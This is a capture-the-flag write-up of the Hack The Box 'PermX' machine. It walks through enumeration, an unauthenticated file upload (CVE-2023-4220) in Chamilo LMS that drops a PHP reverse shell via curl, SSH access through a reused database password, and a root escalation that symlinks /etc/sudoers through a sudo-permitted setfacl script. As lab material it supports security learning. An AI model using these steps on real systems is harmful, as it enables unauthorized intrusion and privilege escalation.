


## Table of Contents

## Reconnaisance

Always starting out with our `nmap` scan.

```bash
nmap -sC -sV -oA ./permx 10.129.76.175
```


This is pretty typical for HTB and gives us ports 22 and 80. We'll of course start with port 80.

## Enumeration

### Port 80 - HTTP (Apache httpd 2.4.52)

We of course have to add the host to our `/etc/hosts` and then we can access the webpage. I've already done that in this screenshot so if you haven't you'll need to. That really goes for any writeup of mine that has a host to add by the way 😆.


If we use `ffuf`, we can subdomain/vhost enumerate and we pick up something.

```bash
ffuf -c -u http://permx.htb -w /usr/share/wordlists/seclists/Discovery/Web-
Content/big.txt -H "Host: FUZZ.permx.htb" -mc 200
```

_I like using `ffuf` for subdomain/vhost enumeration over `gobuster` because while it does have a specific command for both, I can never remember the exact order of commands I need to enter to get it to work. But pick whatever works best for you._


It quickly finds `lms.permx.htb` as a valid subdomain. We need to add that to `/etc/hosts` too for the same IP address that the box is assigned. I've again already done that in the screenshots.


We get a `Chamilo` admin panel login page. And if we look, we can see that the footer contains the Administrator. Not sure if that's relevant or not but it's still a finding. If we open Wappalayzer, we see a lot of technologies on this page. But the one we really care about is what version did it identify for Chamilo. And that answer is `Version 1.0`.



While I was looking around here, I also decided to run `nuclei` which is a tool someone from the Hack the Box Discord told me about. It's similar to `Nessus` (in a way), but it's free to run and use. Their [docs](https://docs.projectdiscovery.io/tools/nuclei/running) are really good and I really should put more time into learning how to properly use it. I have trouble getting it to complete most times on HTB machines but on this one, it did return _some_ results.

```yml
parameters:
    database_driver: pdo_mysql
    database_host: 127.0.0.1
    database_port: ~
    database_name: chamilo111
    database_user: root
    database_password: root
    mailer_transport: smtp
    mailer_host: 127.0.0.1
    mailer_user: ~
    mailer_password: ~

    # A secret key that's used to generate certain security-related tokens
    secret: ThisTokenIsNotSoSecretChangeIt
    password_encryption: sha1

    # Activation for multi-url access
    multiple_access_urls: false
    # Deny the elimination of users
    deny_delete_users: false
    installed: ~
    password_encryption: sha1
    sp_bower_bin: '/usr/bin/bower'
    url_append: ''
    sonata_media.cdn.host: /uploads/media

    # If you installed Chamilo in http://localhost/chamilo_master
    # you need to setup like this:
    # url_append: '/chamilo_master/web/'
    # sonata_media.cdn.host: /chamilo_master/web/uploads/media

    sonata_page.varnish.command: 'if [ ! -r "/etc/varnish/secret" ]; then
    echo "VALID ERROR :/"; else varnishadm -S /etc/varnish/secret -T
    127.0.0.1:6082 {{ COMMAND }} "{{ EXPRESSION }}"; fi;'
    locales: [en, fr, es, de]
```

Kinda' cool, but I don't really know how this would be used. It does give a database name and user with a secret key that is stated to be used to generate certain security related tokens. For now, I'll keep going.

Continuing with my research, I came across a [POC](https://github.com/dollarboysushil/Chamilo-LMS-Unauthenticated-File-Upload-CVE-2023-4220) that looked promising on how to exploit this. We'll move on now to the **Exploitation** phase.

## Exploitation

Reading through the GitHub pages, it seems that the vulnerability is that a remote file can be uploaded to a `bigupload` directory on the server.

1. Go to [revshells](https://revshells.com)
2. Pick the Pentestmonkey PHP script and enter our IP and port
3. Copy the generated script into a shell.php file in our directory
4. `curl` the file up to the vulnerable host per the POC
5. ```bash
   curl -F 'bigUploadFile=@shell.php'
   'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?
   action=post-unsupported'
   ```


The shell is uploaded completely! Great! So we can set up our netcat listener and test this.


Looks good! We now have foothold.

## Foothold

So now we can see that we're `www-data`. Unfortunately, this is usually a low level user that cannot do much since they usually do not have a lot of privileges (`www-data` is the Apache user that is created). Let's poke around though and see what we can find.

Looking online for Chamilo documentation on this, we can see that Chamilo is installed in `/var/www`. Navigating there, we see a `/var/www/chamilo/app` directory. Going further, we see there is also a `/config` directory. Putting it all together, inside `/var/www/chamilo/app/config/configuration.php` we find the Chamilo configuration.


We can clearly see the database credentials. There's only one other user on this machine called `mtz` so we can see if they reused passwords by trying to SSH in as them.



## Privilege Escalation

Sure enough, we are able to escalate privileges to `mtz` because of the reused password from the database. Shame.


And we can easily find the user flag.


If we run `sudo -l` like we normally do once getting a user, we find an interesting file in `/opt`.


Looks like a custom shell script that was written. If we `cat` it out, we see

```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
  /usr/bin/echo "Usage: $0 user perm file"
  exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
  /usr/bin/echo "Access denied."
  exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
  /usr/bin/echo "Target must be a file."
  exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

So, it's using `setfacl -m` on arguments that are passed in in the order of `user`, `permissions`, `target`. But we can only operate on a file inside `/home/mtz`. Reading up on `setfacl`, it allows the user to set an access control list in files and directories. It's based on users and groups instead of general file permissions. The `-m` flag lets us _modify_ the ACL.

The `file_permission` argument (from `setfacl`) that matches our syntax in our shell script for `$perm` are:

| Type | Description                                                                       |
| ---- | --------------------------------------------------------------------------------- |
| 'r'  | For read, it will allow the user to access the file.                              |
| 'w'  | For writing, it will allow the user to make modifications or changes in the file. |
| 'x'  | For execution, it will allow the user to execute or run the file.                 |

Since we can only operate on something inside `/home/mtz/*` and we don't have permissions as `mtz` to affect anything that `root` would have access to like `/etc/passwd` or `/etc/shadow` or `/etc/sudoers`, we can create a symlink to any of those kinds of files, use this `acl.sh` script and then we should be able to modify the linked file in our `/home` directory.

```bash
ln -s /etc/sudoers ./my-sudoers
sudo /opt/acl.sh mtz rw /home/mtz/my-sudoers
vim my-sudoers
```

Sure enough, we have access to the `sudoers` file and can edit it to allow `mtz` to run all commands as `sudo` which means we can just `sudo su` for root.


_I called the file `haha` when going through which is why you see that in the screenshot, but in the code snippet above, I named it `my-sudoers` to make it a bit easier to follow along._

And just like that we're root and get the flag. Another one down.


## Conclusion

I really enjoyed this machine. I believe at the time of writing this, it's rated pretty high in the upper 4 range and I believe that's deserved. I thought the custom script, while simple, forced the attacker to really think about what they can do to exploit it. There didn't seem to be any rabbit holes to go down (though I believe the Easy machine requirements state that there can't be), `nuclei` actually found something which was neat to see even if I didn't end up using what it found, and the path forward once enumeration was complete was fairly straight forward.

Overall, it deserves its easy rating but was fun to go through!
